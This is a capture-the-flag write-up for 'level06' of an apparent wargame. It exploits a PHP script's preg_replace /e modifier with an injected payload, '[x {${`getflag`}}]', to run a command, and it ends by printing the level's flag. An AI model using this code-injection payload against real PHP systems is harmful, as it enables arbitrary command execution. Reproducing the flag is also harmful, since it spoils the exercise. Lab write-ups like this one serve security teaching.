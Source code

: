 # level06

`ls`
![[ls.png]]

`cat level06.php`
```php
#!/usr/bin/php
<?php
	function y($m) {
		$m = preg_replace("/\./", " x ", $m);
		$m = preg_replace("/@/", " y", $m);
		return $m;
	}
	function x($y, $z) {
		$a = file_get_contents($y);
		$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
		$a = preg_replace("/\[/", "(", $a);
		$a = preg_replace("/\]/", ")", $a);
		return $a;
	}
	$r = x($argv[1], $argv[2]);
	print $r;
?>
```
> /e modifier in preg_replace allows to execute code that's corresponds to the regex. For example, in this case, `[x hello]` would execute `y("hello")`

``echo '[x {${`getflag`}}]' > /tmp/script``
`./level06 /tmp/script`
![[flag.png]]
> Basically tries to get a var named like the result of getflag. It doesn't exist but gives us the error message containing the name of the non existing var (result of getflag)

### Flag = wiok45aaoguiboiki2tuin6ub